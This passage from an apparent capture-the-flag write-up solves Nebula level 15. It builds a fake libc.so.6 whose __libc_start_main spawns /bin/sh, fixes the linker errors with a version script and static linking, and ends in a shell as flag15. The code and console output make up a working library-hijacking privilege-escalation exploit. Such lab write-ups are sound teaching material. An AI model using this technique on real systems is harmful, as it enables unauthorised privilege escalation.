 Nuts, we have a symbol missing, namely `__cxa_finalize`. Let's add it an try again
{{< highlight C >}}
#include <linux/unistd.h>

void __cxa_finalize (void *d) {
    return;
}

int __libc_start_main(int (*main) (int, char **, char **), 
int argc, char *argv, void (*init) (void), void (*fini) 
(void), void (*rtld_fini) (void), void *stack_end) {
    system("/bin/sh");
}
{{< / highlight >}}

{{< highlight console >}}
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
{{< / highlight >}}

What? I realise we are slowly approaching the limits of my capabilities of dealing with Linux's demands. I searched around and found out about [version scripts](http://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_25.html). Let's hope it works

{{< highlight console >}}
level15@nebula:/var/tmp/flag15$ cat version
GLIBC_2.0 { };
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c -Wl,--version-script=version
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
{{< / highlight >}}

*sigh* - symbol `system` is missing. Ok, let's just build it statically and wrap it all up so we've got everything we need. From `man gcc`

> **-static-libgcc**
>           On systems that provide libgcc as a shared library, these options force the use of either the shared or 
>           static version respectively.  If no shared version of libgcc
>           was built when the compiler was configured, these options have no effect.

So really we can also get rid of our implementation of `__cxa_finalize` as it's all statically linked now.

{{< highlight console >}}
level15@nebula:/var/tmp/flag15$ gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o libc.so.6 mylibc.c
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
sh-4.2$ whoami
flag15
sh-4.2$ getflag
You have successfully executed getflag on a target account
{{< / highlight >}}

